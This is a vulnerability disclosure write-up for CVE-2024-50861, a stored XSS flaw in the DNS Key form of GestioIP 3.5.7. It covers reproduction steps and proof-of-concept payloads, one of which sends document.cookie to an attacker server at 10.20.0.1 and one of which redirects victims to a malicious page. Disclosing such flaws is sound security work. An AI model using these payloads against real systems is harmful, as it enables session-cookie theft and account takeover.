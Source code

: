 ```yaml
---
title: "CVE-2024-50861. GestioIP Vulnerability: Stored XSS"
description: Auth. Stored Cross-Site Scripting
date: 2025-01-13T12:28:27-03:00
author: Maximiliano Belino
author website: https://belino.com
lang: en
tags:
  - vulnerability
  - CVE
  - Stored
  - XSS
---
```

# CVE-2024-50861

- [Information](#information)
	- [Description](#description)
- [Proof-of-Concept Exploit](#proof-of-concept-exploit)
	- [Description](#description)
	- [Steps to Reproduce](#steps-to-reproduce)


## Information

### Description

The `ip_mod_dns_key_form.cgi` request is vulnerable to Stored XSS (Stored Cross-Site Scripting). An attacker can save malicious content in the "TSIG Key" (tsig_key) field, which could allow for data exfiltration and enable CSRF (Cross-Site Request Forgery) attacks.


**Versions Affected:**  3.5.7

## Proof-of-Concept Exploit

### Description

The http://localhost/gestioip/res/ip_mod_dns_key_form.cgi feature of GestioIP 3.5.7 is vulnerable to Stored XSS. An authenticated attacker with appropriate permissions can inject malicious code into the *tsig_key* form field and save it to the database. Once saved, any user who accesses the "*DNS Key*" page will trigger the Stored XSS, leading to the execution of malicious code.


### Steps to Reproduce


1. **Enable "DNS Key" Feature**

First, ensure that "Dynamic DNS updates" is enabled in the global configuration:

Manage > Manage GestioIP > Global Configuration > Dynamic DNS updates enabled: yes


![](files/CVE-2024-50861.png)


This will enable the following menus:

- Manage > DNS Keys

- Manage > DNS Update User



2. **Create a DNS Key Entry**

To **create a new** *DNS key* entry and also **edit** an existing one, the user must belong to a group with the "Manage Sites And Categories" permission. By default, "Admin" and "GestioIP Admin" groups have this permission.

Also, you can configure this permission to any group under:

Manage > User Groups > Manage Sites and Categories

![|645](files/CVE-2024-50861-1.png)

3. **Enter payload**

Once group permission is set, input one of the following payloads into the "TSIG Key" (*tsig_key*) field and save it:


**1 - Test basic XSS**

`<script>alert("test")</script>`

We can verify the value was saved to the MySQL database:

![](files/CVE-2024-50861-2.png)


**2 - Send data (cookies) to the attacker's server**

`<svg/onload="fetch('http://10.20.0.1:8000/steal_data',{method:'POST',body:document.cookie})">`

The attacker server receives a POST request with data that can be saved:

![](files/CVE-2024-50861-4.png)


**3 - Redirect the user to a malicious site**

`<svg/onload="window.location='http://10.20.0.1:8090/malicious_page.html'">`


![](files/CVE-2024-50861-5.png)



User is redirected:

![](files/CVE-2024-50861-7.png)


GET request that's received by the attackers server:

![](files/CVE-2024-50861-6.png)



DANGER:
Once the payload is saved into *tsig_key*  field, **any authenticated user** (even those with "Read-Only" permissions) can access the "DNS Key" page, triggering the Stored XSS (provided that "Dynamic DNS updates enabled" is set to "yes").


Obs
By default, this field *tsig_key* is 150 char long



![](files/CVE-2024-50861-3.png)
